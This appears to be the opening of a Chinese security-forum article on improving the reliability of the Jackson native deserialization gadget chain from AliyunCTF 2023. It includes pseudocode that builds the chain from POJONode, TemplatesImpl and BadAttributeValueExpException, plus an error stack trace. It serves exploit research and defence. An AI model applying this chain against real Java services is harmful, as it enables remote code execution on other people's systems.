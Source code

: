 

# 从 JSON1 链中学习处理 JACKSON 链的不稳定性 - 先知社区

从 JSON1 链中学习处理 JACKSON 链的不稳定性



## 简介

今天四月份的 AliyunCTF 2023 中公开了一条只依赖于 Jackson 这个 JSON 序列化库的原生反序列化利用链【1】。这条 JACKSON 链可以直接在无任何额外依赖的 SpringBoot 环境下使用，十分方便。但是，由于 Jackson 获取类属性顺序的不稳定性，导致有时 JACKSON 链在触发 `getOutputProperties` 方法之前就报错了。本文参考著名反序列化利用工具 ysoserial【2】中的 JSON1 链，在新添加一个 Spring AOP 依赖的基础上，对 JACKSON 链进行改进，使得 JACKSON 链在 SpringBoot 环境下可以稳定触发 `getOutputProperties` 方法。

## 关于 JACKSON 链

首先给出一段构造 JACKSON 链的（伪）代码，详细代码可以参考 AliyunCTF 2023 的 writeup【1】.

```plain
public static byte[] getJSON1(String cmd) throws Exception {
                // step 1
        CtClass ctClass = ClassPool.getDefault().get("com.fasterxml.jackson.databind.node.BaseJsonNode");
        CtMethod writeReplace = ctClass.getDeclaredMethod("writeReplace");
        ctClass.removeMethod(writeReplace);
        ctClass.toClass();
                // step 2
        POJONode node = new POJONode(makeTemplatesImpl(cmd));
                // step 3
        BadAttributeValueExpException val = new BadAttributeValueExpException(null);
        setFieldValue(val, "val", node);

        return serialize(val);
    }
```

代码主要分三段，第一段是在 `com.fasterxml.jackson.databind.node.BaseJsonNode` 被类加载器加载前，使用 `javassist` 工具删除它的 `writeReplace` 方法。

第二段是构造一个 `TemplatesImpl` 类型的对象，然后用其构造一个 `POJONode` 类型的对象。

第三段是将这个 `POJONode` 类型的对象设置为 `BadAttributeValueExpException` 类型的对象的 `val` 字段的值，之后反序列化时触发 `POJONode` 类型的对象的 `toString` 方法。

JACKSON 链的原理是 `POJONode` 类型的对象的 `toString` 方法会触发用来构造 `POJONode` 类型的对象的 `TemplatesImpl` 类型的对象的所有 `getter` 方法，最终触发 `TemplatesImpl#getOutputProperties` ，导致任意类加载。

## JACKSON 链的不稳定性

有时在使用 JACKSON 链时，我们会遇到如下报错：

```plain
Caused by: java.lang.NullPointerException
    at com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl.getStylesheetDOM(TemplatesImpl.java:450)
    at sun.reflect.NativeMethodAccessorImpl.invoke0(Native Method)
    at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
    at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
    at java.lang.reflect.Method.invoke(Method.java:483)
    at com.fasterxml.jackson.databind.ser.BeanPropertyWriter.serializeAsField(BeanPropertyWriter.java:689)
    at com.fasterxml.jackson.databind.ser.std.BeanSerializerBase.serializeFields(BeanSerializerBase.java:774)
    ... 74 more
```
